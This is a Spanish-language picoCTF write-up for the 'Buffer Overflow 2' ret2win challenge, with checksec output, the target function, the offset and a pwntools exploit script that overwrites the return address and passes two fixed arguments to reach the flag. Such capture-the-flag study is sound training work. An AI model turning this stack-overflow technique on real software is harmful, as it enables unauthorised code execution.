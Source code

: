 # Buffer Overflow 2

```bash
file vuln  
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped  
```

```bash
checksec --file=vuln  
RELRO STACK CANARY NX PIE RPATH RUNPATH Symbols FORTIFY FortifiedFortifiable FILE  
Partial RELRO No canary found NX enabled No PIE No RPATH No RUNPATH 77 Symbols No 0 3 vuln  
```

Este reto es un Ret2Win simple como el ejercicio anterior “buffer overflow 1”, pero requiere que la función a la que queremos llegar tenga 2 argumentos con un cierto valor para que imprima la flag.

```c
void win(unsigned int arg1, unsigned int arg2) {
    char buf[FLAGSIZE];
    FILE *f = fopen("flag.txt", "r");

    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }
    fgets(buf, FLAGSIZE, f);

    if (arg1 != 0xCAFEF00D)
        return;

    if (arg2 != 0xF00DF00D)
        return;

    printf(buf);
}
```

Podemos aprovechar el script anterior, cambiando el offset al del nuevo binario y pasándole como argumentos esas 2 direcciones. Como el binario es x86 podemos simplemente lanzarle los argumentos después de la dirección de retorno.

```c
EIP 0x62616164 ('daab')  
```

```c
Found at offset 112  
```

Vamos a crear el script:

```python
[from pwn import *  
exe = ELF("./vuln_patched")  
context.binary = exe

def conn():  
if args.LOCAL:  
r = process([exe.path])  
if args.DEBUG:  
gdb.attach(r)  
else:  
r = remote("saturn.picoctf.net", 61001)  
return r

def main():  
r = conn()  
padding = 112
payload = flat({  
    padding: [  
        exe.symbols.win,  
        0x0, # Dirección de retorno  
        0xCAFEF00D, # Argumento 1  
        0xF00DF00D # Argumento 2  
    ]  
})  
r.sendline(payload)  
r.interactive()  
if **name** == "**main**":  
main()](<from pwn import *

exe = ELF("./vuln_patched")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("saturn.picoctf.net", 61001)
    return r

def main():
    r = conn()
    padding = 112
    payload = flat({
        padding: [
            exe.symbols.win,
            0x0,         # Dirección de retorno
            0xCAFEF00D,  # Argumento 1
            0xF00DF00D   # Argumento 2
        ]
    })
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()>)
```

¡Funciona!

```bash
python solve.py  
[_] '/home/ub1cu0/Desktop/picoCTF/buffer_overflow_2/vuln_patched'  
Arch: i386-32-little  
RELRO: Partial RELRO  
Stack: No canary found  
NX: NX enabled  
PIE: No PIE (0x8048000)  
SHSTK: Enabled  
IBT: Enabled  
Stripped: No  
[+] Opening connection to saturn.picoctf.net on port 54392: Done  
[_] Switching to interactive mode  
Please enter your string:  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab\x96\x92\x04\x08  
picoCTF{SECRETO}  
[*] Got EOF while reading in interactive  
```
